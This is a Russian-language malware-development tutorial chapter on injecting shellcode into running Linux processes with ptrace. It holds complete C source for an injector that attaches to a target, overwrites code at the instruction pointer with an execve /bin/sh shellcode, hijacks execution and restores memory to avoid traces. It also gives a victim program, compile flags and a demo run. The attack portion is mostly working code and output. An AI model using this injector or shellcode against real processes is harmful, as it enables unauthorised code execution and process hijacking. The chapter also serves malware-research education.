








\newpage
\subsection{100. разработка вредоносного ПО для Linux 3: инъекция в процесс с помощью ptrace. простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}     

Количество известных техник инъекций на Windows огромно, например: [первый](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html), [второй](https://cocomelonc.github.io/tutorial/2021/11/20/malware-injection-4.html) или [третий](https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html) примеры из моего блога.      

Сегодня я покажу вам потрясающую технику инъекции в Linux с использованием системного вызова `ptrace`. Представьте, что `ptrace` — это ваш личный ключ к инспектированию, модификации и даже захвату других процессов.      

### ptrace

`ptrace` — это системный вызов, который позволяет отлаживать удаленные процессы. Инициирующий процесс может проверять и изменять память и регистры отлаживаемого процесса. Например, GDB использует ptrace для управления отлаживаемым процессом.     

{width="80%"}     

Ptrace предлагает несколько полезных операций для отладки, таких как:

- `PTRACE_ATTACH` - позволяет прикрепиться к процессу, приостанавливая его выполнение.      
- `PTRACE_PEEKTEXT` - позволяет читать данные из адресного пространства другого процесса.        
- `PTRACE_POKETEXT` - позволяет записывать данные в адресное пространство другого процесса.       
- `PTRACE_GETREGS` - читает текущее состояние регистров процесса.      
- `PTRACE_SETREGS` - записывает состояние регистров процесса.       
- `PTRACE_CONT` - продолжает выполнение отлаживаемого процесса.      

### практический пример

В этом пошаговом руководстве я покажу, как:

- Прикрепиться к запущенному процессу.    
- Внедрить собственный shellcode.     
- Перехватить выполнение.     
- Восстановить исходное состояние после выполнения.       

Мы разберем всё это на примере простого практического кода на C. Поехали!         

Первое, что нам нужно сделать, это прикрепиться к интересующему нас процессу. Для этого достаточно вызвать `ptrace` с параметром `PTRACE_ATTACH`:     

```cpp
printf("attaching to process %d\n", target_pid);
if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
  perror("failed to attach");
  return 1;
}
```

Это приостанавливает процесс и позволяет нам исследовать его память и регистры.     

Перед тем как вносить изменения в регистры процессора, сначала необходимо сделать резервную копию их текущего состояния. Это позволит возобновить выполнение на более позднем этапе:     

```cpp
struct user_regs_struct target_regs;
//...
//...
// get the current registers
printf("reading process registers\n");
ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);
```

Используя `PTRACE_PEEKDATA`, мы читаем память по указателю команд (`RIP`). Это важно для восстановления процесса в исходное состояние после инъекции. Для этого я создал функцию `read_mem`:     

```cpp
// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}
```

Давайте разберем пошаговую логику этой функции.    

`ptrace` читает память блоками по `sizeof(long)` байт. Этот union позволяет нам легко работать с данными как с `long` для операций `ptrace`, а также получать доступ к отдельным байтам через массив `bytes`:     

```cpp
union data_chunk {
  long val;
  char bytes[sizeof(long)];
} chunk;
```

Затем читаем полные блоки размером `sizeof(long)`:     

```cpp
int i = 0;
while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
}
```

Как видите, здесь мы читаем `long` (обычно `8`-байт на `64-bit` системах) из памяти целевого процесса по определенному адресу. Затем считанные данные копируются в `buffer` с помощью `memcpy`. Это продолжается до тех пор, пока не будут прочитаны все полные блоки `sizeof(long)`.     

Затем обрабатываем оставшиеся байты:     

```cpp
int remaining = len % sizeof(long);
if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
}
```

Логика проста: если длина (`len`) не является кратной `sizeof(long)`, могут остаться лишние байты для чтения. Функция обрабатывает эти оставшиеся байты, читая еще один полный `long` из памяти и копируя только необходимое количество байтов в буфер.     

Таким образом, весь блок памяти (`len` байтов) из целевого процесса, начиная с `addr`, теперь хранится в `buffer`.      

С помощью `PTRACE_POKEDATA` мы внедряем собственный shellcode в память целевого процесса по адресу `RIP`.     

```cpp
// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}
```

Как видите, эта функция аналогична `read_mem`, но предназначена для записи памяти.      

На следующем этапе мы изменяем указатель команд (`RIP`) процесса, чтобы выполнить внедренную полезную нагрузку:     

```cpp
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

После выполнения полезной нагрузки мы восстанавливаем исходные инструкции памяти, чтобы избежать сбоя процесса или оставления следов:      

```cpp
write_mem(target_pid, target_regs.rip, original_code, payload_len);
```

Наконец, отсоединяемся от целевого процесса, позволяя ему продолжить нормальную работу:     

```cpp
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

Таким образом, полный исходный код нашего вредоносного кода для инъекции (`hack.c`) выглядит следующим образом:         

```cpp
/*
 * hack.c
 * practical example of linux process injection
 * author @cocomelonc
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>

// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}

// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}

int main(int argc, char *argv[]) {
  if (argc != 2) {
    printf("usage: %s <target_pid>\n", argv[0]);
    return 1;
  }

  pid_t target_pid = atoi(argv[1]);
  char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
  "\x69\x6e\x2f\x2f\x73\x68\x57\x54"
  "\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
  int payload_len = sizeof(payload) - 1;
  char original_code[payload_len];

  struct user_regs_struct target_regs;

  // attach to the target process
  printf("attaching to process %d\n", target_pid);
  if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
    perror("failed to attach :(");
    return 1;
  }
  waitpid(target_pid, NULL, 0);

  // get the current registers
  printf("reading process registers\n");
  ptrace(PTRACE_GETREGS, target_pid, NULL, &target_regs);

  // backup the memory at RIP
  printf("backing up target memory\n");
  read_mem(target_pid, target_regs.rip, original_code, payload_len);

  // inject the payload
  printf("injecting payload\n");
  write_mem(target_pid, target_regs.rip, payload, payload_len);

  // hijack execution
  printf("hijacking process execution\n");
  ptrace(PTRACE_CONT, target_pid, NULL, NULL);

  // wait for the payload to execute
  wait(NULL);

  // restore the original code
  printf("restoring original process memory\n");
  write_mem(target_pid, target_regs.rip, original_code, payload_len);

  // detach from the process
  printf("detaching from process\n");
  ptrace(PTRACE_DETACH, target_pid, NULL, NULL);

  printf("injection complete\n");
  return 0;
}
```

Но есть один нюанс. *Почему мы используем `waitpid` в коде инъекции процесса?*     
Когда мы прикрепляемся к процессу с помощью `ptrace` (через `PTRACE_ATTACH`), целевой процесс не останавливается мгновенно. Он продолжает выполнение до тех пор, пока операционная система не отправит сигнал, указывающий, что отладчик (наш инжектор) взял процесс под контроль. Мы используем `waitpid`, чтобы заблокировать выполнение в нашем инжекторе до тех пор, пока целевой процесс не войдет в остановленное состояние:      

```cpp
ptrace(PTRACE_ATTACH, target_pid, NULL, NULL);
waitpid(target_pid, NULL, 0);
```

Без `waitpid` мы могли бы попытаться прочитать или изменить память до того, как ОС гарантирует, что целевой процесс полностью остановлен, что приведет к неопределенному поведению.      

Кроме того, при инъекции в процесс нам часто нужно обнаружить, когда *внедренный shellcode завершил выполнение*. Для этого мы используем программное прерывание, например, инструкцию `int 0x3`, которая генерирует сигнал `SIGTRAP` в целевом процессе. Этот сигнал приостанавливает процесс, позволяя нам снова получить контроль через `waitpid`.    

Окей, но что насчет `wait`? *Что такое `wait`, и когда его использовать?*     

Функция `wait` - это более простая версия `waitpid`. Она ожидает, пока любой дочерний процесс не изменит состояние. В отличие от `waitpid`, она не позволяет нам указать конкретный PID или использовать расширенные параметры.

В контексте инъекции в процесс мы обычно не используем `wait`, так как нам нужен точный контроль над конкретным процессом (нашей целью), что обеспечивает `waitpid`. Однако `wait` может использоваться в случаях, когда задействовано несколько дочерних процессов, и нам не важно, какой из них первым изменит состояние.     

Таким образом, используя `waitpid` стратегически, мы можем обеспечить плавную и надежную инъекцию в процесс.       

Для простоты я использовал самый простой payload:     

```cpp
char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
"\x69\x6e\x2f\x2f\x73\x68\x57\x54"
"\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
```

### демонстрация

Прежде всего, для демонстрации нам нужен "жертвенный" процесс.      

Вот простой процесс-"жертва", написанный на C, который выполняет бесконечный цикл, что делает его подходящей целью для тестирования инъекции. Эта программа будет периодически выводить сообщение, имитируя реальный запущенный процесс:     

```cpp
/*
 * meow.c
 * simple "victim" process for injection testing
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/22/linux-hacking-3.html
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
    printf("meow-meow... PID: %d\n", getpid());
    sleep(5); // simulate periodic activity
  }

  return 0;
}
```

Скомпилируем жертвенный процесс:     

```bash
gcc meow.c -o meow
```

{width="80%"}     

И затем скомпилируем `hack.c` — наш инжектор:     

```bash
gcc -z execstack hack.c -o hack
```

{width="80%"}     

Сначала запустите жертвенный процесс в моей виртуальной машине Ubuntu 24.04:     

```bash
./meow
```

Обратите внимание на `PID`, напечатанный жертвенным процессом:     

{width="80%"}     

В нашем случае `PID = 5987`.      

Теперь мы можем использовать этот `PID` в качестве цели для нашего инжектора `hack`. Например:     

```bash
./hack 5987
```

{width="80%"}     

Эта команда прикрепится к жертвенному процессу и внедрит наш полезный код, пока жертва продолжает работу:      

{width="80%"}     

{width="80%"}     

Как видите, всё работает идеально! =^..^=    

### заключительные слова

Этот практический пример демонстрирует, как `ptrace` может быть использован для внедрения пользовательского shellcode в процесс и изменения его потока выполнения.      

Конечно, эта техника с `ptrace` не нова, но она подчеркивает, как законные функции могут быть использованы в вредоносных целях.       

Надеюсь, этот пост с практическим примером будет полезен исследователям вредоносного ПО, программистам Linux и всем, кто интересуется программированием ядра Linux и техниками внедрения кода в Linux.    

*Примечание: В Linux также есть `process_vm_readv()` и `process_vm_writev()` для чтения/записи памяти процесса.*       

[ptrace](https://docs.kernel.org/arch/powerpc/ptrace.html)      
[Linux malware development 1: intro to kernel hacking. Simple C example](https://cocomelonc.github.io/linux/2024/06/20/linux-kernel-hacking-1.html)      
[Linux malware development 2: find process ID by name. Simple C example](https://cocomelonc.github.io/linux/2024/09/16/linux-hacking-2.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-11-22-linux-hacking-3)    
